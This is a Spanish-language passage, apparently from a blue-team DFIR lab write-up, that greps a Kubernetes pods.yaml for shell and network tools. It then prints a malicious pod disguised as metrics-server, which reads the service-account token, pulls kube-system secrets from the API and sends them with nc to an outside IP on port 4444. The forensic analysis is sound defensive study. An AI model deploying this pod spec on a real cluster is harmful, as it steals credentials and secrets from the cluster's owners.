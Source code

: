 
Para hacer esto rapidamente podemos usar el siguiente comando para detectar comandos potencialmente peligrosos: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/DFIR/kube-system]
└─$ grep -inP '\b/bin/sh\b|\bcurl\b|\bnc\b|\bnetcat\b' pods.yaml

879:        {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"metrics-server-557ff575fx-4q62x","namespace":"kube-system"},"spec":{"automountServiceAccountToken":true,"containers":[{"args":["-c","apk update \u0026\u0026 apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://10.43.191.212:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 10.10.14.11 4444; sleep 100000"],"command":["/bin/sh"],"image":"alpine","name":"alpine"}],"hostNetwork":true}}
888:      - 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token
889:        | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type:
891:        } | nc -nv 10.10.14.11 4444; sleep 100000'
```

Y ya podemos ir a esas lìneas para verlas más claro: 

```bash 
874 - apiVersion: v1
 875   kind: Pod
 876   metadata:
 877     annotations:
 878       kubectl.kubernetes.io/last-applied-configuration: |
 879         {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"metrics-server-557ff575fx-4q62x","namespace":"kube-system"},"spec":{"automountServiceAccountToken":true,"containers":[{"args":["-c","apk update \u0026\u0026 apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://10.43.191.212:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 10.10.14.11 4444; sleep 100000"],"command":["/bin/sh"],"image":"alpine","name":"alpine"}],"hostNetwork":true}}
 880     creationTimestamp: "2024-08-16T15:00:06Z"
 881     name: metrics-server-557ff575fx-4q62x
 882     namespace: kube-system
 883   spec:
 884     automountServiceAccountToken: true
 885     containers:
 886     - args:
 887       - -c
 888       - 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token
 889         | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type:
 890         application/json" https://10.43.191.212:8443/api/v1/namespaces/kube-system/secrets;
 891         } | nc -nv 10.10.14.11 4444; sleep 100000'
 892       command:
 893       - /bin/sh
 894       image: alpine
 895       imagePullPolicy: Always
 896       name: alpine
 897       resources: {}
 898       terminationMessagePath: /dev/termination-log
 899       terminationMessagePolicy: File
 900       volumeMounts:
 901       - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
 902         name: kube-api-access-mfkvh
 903         readOnly: true
```
